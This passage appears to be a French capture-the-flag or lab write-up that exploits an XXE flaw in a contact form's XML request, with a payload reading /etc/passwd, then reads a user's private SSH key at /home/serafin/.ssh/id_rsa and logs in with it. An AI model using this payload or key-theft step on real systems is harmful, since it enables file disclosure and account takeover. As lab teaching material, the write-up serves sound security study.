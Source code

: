 ```py
    exploit('http://localhost:4444', payload)
```

On tente d'accèder à la page avec un GET, etttt : 


![image](https://hackmd.io/_uploads/Bkk8Y0g4T.png)

#### Faille XXE

Lorsque l'on clique sur "Send", la requête POST est envoyée et une alerte apparait : 

![image](https://hackmd.io/_uploads/rkxuUag4T.png)

Il semble que la valeur du champ `Email address` soit intégré au message de l'alerte.

Analysons la requête POST avec Burp : 

![image](https://hackmd.io/_uploads/SJ70UaeVa.png)

La requête envoie le contenu du formulaire au format XML.
Nous pensons alors à une faille XXE (XML External Entity).

Tentons alors de lire le fichier `/etc/passwd` du serveur avec le payload suivant : 
```xml
<?xml version = "1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/passwd">]>
<contact><name>a</name><subject>c</subject><mail>&xxe;</mail><message>d</message></contact>
```

En renvoyant la requête avec notre payload : 

![image](https://hackmd.io/_uploads/Skr6hTlVa.png)

On peut bel et bien lire le fichier.

--> On poursuit sur le .ssh/id_rsa

#### Connexion via SSH

On peut tenter d'obtenir la clef privée de Serafin. 
De manière générale, les clefs privées sont stockées dans le répertoire `/home/<username>/.ssh/`. 
De plus, le nom par défaut d'une clef privée est `id_rsa`. 

Ainsi, essayons de lire le fichier `/home/serafin/.ssh/id_rsa` : 

![image](https://hackmd.io/_uploads/BJJPSAxNp.png)

Copions la clef de Serafin dans un fichier sur notre machine et connectons nous à la machine de Serafin grâce à elle : `ssh serafin@<ip-address> -i id_rsa`

